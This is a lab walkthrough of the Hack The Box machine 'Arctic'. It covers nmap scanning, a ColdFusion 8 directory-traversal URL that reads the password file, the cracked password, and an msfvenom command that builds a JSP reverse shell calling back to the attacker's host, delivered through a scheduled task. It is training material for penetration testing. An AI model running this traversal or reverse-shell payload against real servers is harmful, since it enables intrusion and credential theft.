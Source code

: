 ```yaml
---
description: 10.10.10.11
---
```


# Arctic

## Nmap

```
sudo nmap -Pn -p- 10.10.10.11 --min-rate=5000
```

![](<../../../../.gitbook/assets/image (8) (1).png>)

Ran a script script based on open ports

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Aug 10 16:56:59 2022 as: nmap -Pn -p135,8500,49154 -sCV -O -v -oN script-scan.txt 10.10.10.11
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.040s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Wed Aug 10 16:46:55 2022)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 16:59:18 2022 -- 1 IP address (1 host up) scanned in 139.14 seconds
```
{% endcode %}

## FMTP Port 8500

{% embed url="https://www.eurocontrol.int/service/flight-message-transfer-protocol-address-coordination" %}

> Flight Message Transfer Protocol (FMTP) is a communication stack based on the transmission control and internet protocols (TCP/IP). It is used in a peer-to-peer communication context for the information exchange between flight data processing systems for the purpose of notification, coordination and transfer of flights between air traffic control units and for the purposes of civil-military cooperation.

I look to see if there's anything interesting that can be looked at on the browser on this particular port

![](<../../../../.gitbook/assets/image (5) (1).png>)

Clicking on `CFIDE` leads to some pretty interesting findings

![](<../../../../.gitbook/assets/image (11) (1).png>)

I'm most interested in the `administrator` link, so going there takes me to an Admin page!

![](<../../../../.gitbook/assets/image (7) (1).png>)

## Searchsploit

I search for any public exploits in searchsploit

![](<../../../../.gitbook/assets/image (9) (1) (3).png>)

The Remote Code Execution python script catches my eye so I'll view that one

![](<../../../../.gitbook/assets/image (6) (1).png>)

{% embed url="https://www.exploit-db.com/exploits/50057" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2265" %}

> Multiple directory traversal vulnerabilities in FCKeditor before 2.6.4.1 allow remote attackers to create executable files in arbitrary directories via directory traversal sequences in the input to unspecified connector modules, as exploited in the wild for remote code execution in July 2009, related to the file browser and the editor/filemanager/connectors/ directory.

## Foothold #1 - RCE Script

This python script does it all! We'll change the listening host IP and port number (in case firewall rules don't like weird port numbers)&#x20;

Then we run it and get a shell!

![](<../../../../.gitbook/assets/image (2) (1) (3).png>)

## Foothold #2 - Directory Traversal

There was also a metasploit module for directory traversal. I was curious about it so I checked it out and found this

{% embed url="https://www.exploit-db.com/exploits/14641" %}

![](<../../../../.gitbook/assets/image (4) (1).png>)

I decided to do this without the python script since you technically don't need to

{% code overflow="wrap" %}
```
http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
{% endcode %}

As you can see, there's a password that's encrypted, so we should crack it.

### Cracking the hash

![](<../../../../.gitbook/assets/image (18) (2).png>)

```
happyday
```

&#x20;Because we have a password, we can log in!

![](<../../../../.gitbook/assets/image (15).png>)

### Getting a shell

This is an excellent resource I found that could assist with getting a reverse shell

{% embed url="https://pentest.tonyng.net/attacking-adobe-coldfusion/" %}

Generate our payload with  msfvenom

{% code overflow="wrap" %}
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > revshell.jsp
```
{% endcode %}

Schedule a New Task

![](<../../../../.gitbook/assets/image (10).png>)

Make sure to save the output to a file in a valid directory. I had to check for what it was on google

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

![](<../../../../.gitbook/assets/image (8) (3).png>)

Before you run the scheduled task, make sure to have a web server (I use python) running so it will download your payload

![](<../../../../.gitbook/assets/image (4) (3).png>)

![](<../../../../.gitbook/assets/image (1) (1) (3) (1).png>)

![](<../../../../.gitbook/assets/image (7) (3).png>)

Now start your listener and go to the file in your web browser to catch a shell!

![](<../../../../.gitbook/assets/image (12) (3).png>)

## Priv Esc

### SystemInfo

![](<../../../../.gitbook/assets/image (14).png>)

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### whoami /all

![](<../../../../.gitbook/assets/image (16).png>)



## Windows Exploit Suggester

![](<../../../../.gitbook/assets/image (3) (3).png>)

{% embed url="https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled" %}

I've seen online people using this, however I cannot get it work

## Resources

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

